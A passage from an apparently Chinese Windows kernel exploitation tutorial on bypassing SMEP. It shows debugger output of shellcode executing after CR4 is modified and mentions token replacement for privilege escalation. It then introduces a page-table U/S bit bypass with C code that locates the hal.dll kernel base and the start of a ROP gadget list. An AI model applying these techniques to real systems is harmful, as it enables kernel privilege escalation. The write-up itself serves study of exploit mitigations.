 ```
kd&gt; p//ret后进入shellcode部分，可以执行了
00000000`00a60000 65488b142588010000 mov   rdx,qword ptr gs:[188h]
kd&gt; p
00000000`00a60009 4c8b82b8000000  mov     r8,qword ptr [rdx+0B8h]
```

可以看到，这次跳转到a60000这个用户地址空间后，也可以继续执行shellcode代码了，cr4的20bit位置置0了，SMEP并没有工作，等待替换token之后，再将cr4寄存器恢复即可。最后提权完成。

[![](./img/85624/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0140579a5aa975e52d.png)

<br>

**0x04 另一种SMEP绕过方法**

在开头，我提到了一篇比较有意思的show case，里面提到了一种另类的ROP方法，就是用来欺骗SMEP，在pxe中，有一位表示的是U/S，如果我们将这一位修改，让SMEP认为用户空间是可以执行代码的。

首先，我们需要修改之前NtQuerySystemInformation函数获取的内容，来获取hal的内核地址。



```
00000000`01120140  68828000 fffff801 00075000 08804000  ...h.....P...@..
00000000`01120150  00000001 00150022 7379535c 526d6574  ...."...SystemR
00000000`01120160  5c746f6f 74737973 32336d65 6c61685c  ootsystem32hal
00000000`01120170  6c6c642e 00000000 00000000 00000000  .dll............
0033:00007ff7`157e10b0 4963c3          movsxd  rax,r11d
0033:00007ff7`157e10b3 4869c028010000  imul    rax,rax,128h//获得距离SYSTEM_MODULE_INFORMATION起始地址的偏移
0033:00007ff7`157e10ba 488d4c3830      lea     rcx,[rax+rdi+30h]//30h是模块名称成员距离模块起始的偏移，rcx得到模块成员名称的地址
0033:00007ff7`157e10bf 493bc9          cmp     rcx,r9//判断模块名称是否是我们需要的模块名称
0033:00007ff7`157e10c2 7503            jne     Bypass_SMEP!GetKernelBase+0xc7 (00007ff7`157e10c7)
0033:00007ff7`157e10c4 488b1a          mov     rbx,qword ptr [rdx]
0033:00007ff7`157e10c7 41ffc3          inc     r11d
```

修改的源码如下：



```
Int_3();
    NtQuerySystemInformation(SystemModuleInformation, ModuleInfo, len, &amp;len);
    //try to catch HAL kernel address
    for(i=0;i&lt;ModuleInfo-&gt;NumberOfModules;i++)
    {
        if(!strcmp(ModuleInfo-&gt;Module[i].Name,"\SystemRoot\system32\hal.dll"))
        {
            kernelBase = ModuleInfo-&gt;Module[i].ImageBaseAddress;
            break;
        }
    }
```

在构造rop chain的时候，我们需要下面几个rop gadgets。

1、mov rsp,48000000df  jmp to user space//maybe不用？
